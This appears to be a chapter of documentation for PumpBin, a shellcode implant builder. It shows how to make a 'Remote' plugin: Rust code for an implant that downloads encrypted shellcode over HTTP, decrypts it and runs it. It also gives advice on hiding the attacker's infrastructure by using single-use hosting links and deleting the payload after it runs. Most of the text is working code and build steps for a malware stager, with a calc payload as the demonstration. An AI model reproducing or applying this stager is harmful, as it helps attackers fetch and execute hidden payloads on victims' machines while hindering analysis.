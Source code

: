 # Remote Type

In this chapter, we will create a plugin of type `Remote`.

The shellcode of a plugin of type `Remote` is hosted on a remote server. By controlling the accessibility of the shellcode, it can be made more difficult to extract the shellcode, thereby protecting the infrastructure.

For example, delete the remote shellcode file after the implant has run successfully. (provided you don't have other implants that depend on this shellcode file to run)

It is recommended to always use one-time linking (a unique hosting address for each generated final implant).

## Creating a binary implant template

We will modify the [code from the previous chapter](https://github.com/pumpbin/pumpbin/tree/main/examples/create_thread_encrypt)

First, we need a way to fetch the encrypted shellcode file from the remote server instead of including the shellcode placeholder data in the binary implant template.

Delete build.rs (no longer needed to generate shellcode placeholder data).

Add the dependency at the end of Cargo.toml. In this example, the http protocol is used for demonstration purposes. (You can use any protocol, and any method to implement the download function. PumpBin does not care. PumpBin is very flexible.)

```toml
reqwest = { version = "0.12.5", features = ["blocking"] }
```

Add the following download function to the main function of main.rs

```rust
fn download() -> Vec<u8> {
    const URL: &[u8; 81] =
        b"$$UURRLL$$aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
    let url = CStr::from_bytes_until_nul(URL).unwrap();
    reqwest::blocking::get(url.to_str().unwrap())
        .unwrap()
        .bytes()
        .unwrap()
        .to_vec()
}
```

$$UURRLL$$ is a `Prefix`, which means that the URL constant will be filled with valid data + random data, so it is recommended to reserve a certain number of bytes for PumpBin to fill with random bytes.

Since URLs and the like are mostly printable characters, the processing here is slightly different from the $$$SHELLCODE$$ `Prefix` in Chapter 1.

We no longer need a size holder to distinguish between valid data and invalid data. Instead, PumpBin will add a \\x00 byte after the valid data to locate the valid data.

This is easy to implement in Rust, and should be similar in other languages. If not, just use a for loop to check byte by byte.

After implementing the download function, we need to use it in main.rs to replace the shellcode placeholder data

Delete the first four lines of the main function in main.rs and add the following code to the first line

```rust
let shellcode = download();
let shellcode = shellcode.as_slice();
```

The modified main function is as follows

```rust
fn main() {
    let shellcode = download();
    let shellcode = shellcode.as_slice();
    let shellcode = decrypt(shellcode);
    let shellcode_size = shellcode.len();
    ...
```

Compiling the modified `create_thread` project, we will get a binary implant template that uses the http protocol to download the encrypted shellcode file.

```sh
cargo b -r
```

## Creating a Plugin

Use PumpBin Maker to create a plugin, similar to the previous section.

Prefix: Enter `$$UURRLL$$`

MaxLen: the length of the URL constant array reference 81.

Type: Select `Remote`

The rest is the same as the previous chapter

## Test Plugin

Use PumpBin to install the plugin you created, click the Encrypt button, select `w64-exec-calc-shellcode-func` to generate an encrypted shellcode file.

Use Python 3 to start an HTTP service in the same directory as the encrypted shellcode file.

```sh
python -m http.server 8000
```

The local http address of the encrypted shellcode file should be `http://127.0.0.1:8000/shellcode.enc`

Fill in PumpBin, generate the final implant, run it and you should see the access request, and the calc program is started.

At this point, the basic chapter is over. I have deliberately emphasized that PumpBin is very flexible! You can already see this in the basic chapter.
The following chapters will introduce some advanced techniques that build on PumpBin's high flexibility.

The complete project files for this example are available in the PumpBin code repository under [examples/create_thread_remote](https://github.com/pumpbin/pumpbin/blob/main/examples/create_thread_remote/src/main.rs).
